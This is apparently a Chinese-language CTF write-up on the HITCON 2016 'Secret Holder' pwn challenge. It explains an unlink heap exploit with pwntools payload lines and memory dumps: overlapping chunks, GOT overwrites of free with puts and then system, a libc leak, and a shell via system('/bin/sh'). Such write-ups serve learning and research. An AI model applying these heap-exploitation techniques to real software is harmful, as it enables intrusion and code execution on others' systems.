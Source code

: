 # Secret Holder
這題是比賽結束後照著 **bruce** 學長的想法解出來的，過程中除了複習了還不太熟悉的 unlink exploit 也新學到了幾個 heap 的特性，所以也寫一篇來記錄 XD。

## 觀察程式
首先看一下程式提供的幾項功能：
* `keepSecret`：分配 3 種不同大小的空間，並接受對應大小的輸入到該空間
* `wipeSecret`：`free` 掉某個大小的空間
* `renewSecret`：可以重新寫入某個大小的空間

以及程式中 global 段的幾個變數：
```
 0|-------------|
  |   big_ptr   |  # point to allocated 40bytes
  |-------------|
  |             |
 8|-------------|
  |  huge_ptr   |  # point to allocated 4000bytes
  |-------------|
  |             |
16|-------------| 
  |  small_ptr  |  # point to allocated 400000bytes
  |-------------|
  |             |
24|-------------|
  |   big_flag  |  # set to 1 when use keep big secret
  |-------------|
  |  huge_flag  |  # set to 1 when use keep huge secret
32|-------------|
  |  small_flag |  # set to 1 when use keep small secret
  |-------------|
```

## 解題流程

在開始之前要先知道一件事。動態申請的空間到一定的大小後，會使用 `mmap` 來分配，得到的空間將不會在 heap 上。不過當我們 `free` 掉這塊空間後再次分配相同大小的空間，會發現他改用 `malloc` 來分配了！我有試著觀察這個機制，可以參考 [mmap_test](https://github.com/briansp8210/CTF_writeup/blob/master/HITCONCTF_2016_qual/SecretHolder/mmap_test.md)。

於是我們可以利用這點讓 huge 和 small 兩塊 chunk 重疊，並讓 big 接在 small 後面。
接著就可以開始準備做 unlink 的準備，這裡我們打算在 small chunk 裡面造假 chunk，接著 `free` big chunk，目標是在 unlink 後 huge_ptr 會等於 `(&huge_ptr - 0x18)`。
可以透過 renew huge 來寫入要控的值：

```python
renew(3, 'E'*8 + p64(0x21) + p64(huge_ptr-0x18) + p64(huge_ptr-0x10) + p64(0x20) + p64(0xfb0))
```
<pre>
# 我們的目標，huge_ptr = 0x6020a8

small/huge chunk  -> 0x0000000000000000      0x0000000000000031
huge_ptr point to -> 0x4545454545454545      0x00000000000000<b>21</b>
                     0x0000000000<b>602090</b>      0x0000000000<b>602098</b>
       big chunk  -> 0x00000000000000<b>20</b>      0x0000000000000fb<b>0</b>
 big_ptr point to -> 0x434343434343430a      0x000000000000000a
                     0x0000000000000000      0x0000000000000000
                     0x0000000000000000      0x0000000000000000
</pre>

成功之後我們就可以去 renew huge 來把 huge_ptr 蓋成 `free@got.plt`，順便把位址更高的 small_ptr 蓋成 `__libc_start_main@got.plt`。

```python
renew(3, 'F'*24 + p64(free_got) + p64(libc_start_main_got))
```
<pre>
0x602090:              0x4646464646464646      0x4646464646464646
0x6020a0:              0x4646464646464646      0x0000000000<b>602018</b> <- huge_ptr
0x6020b0: small_ptr -> 0x0000000000<b>602048</b>      0x000000010000000a
0x6020c0:              0x0000000000000001      0x0000000000000000
</pre>

接著只要再 renew huge 送 `puts@plt` 進去，就可以將 `free` 蓋成 `puts` 了。
又因為我們剛才把 small_ptr 蓋成 `__libc_start_main@got.plt`，我們可以用 wipe small 來 leak 出 libc address，從而推出 libc base address。

接著，我們再一次用 renew huge 把 `system` 給送上去，這樣就把 `free` 蓋成 `system` 了。然後我們利用 keep small 把 `"/bin/sh"` 寫進 small_ptr。最後，用 wipe small 的時候就會從 `free(small_ptr)` 變成 `system("/bin/sh")`，順利取得 shell！

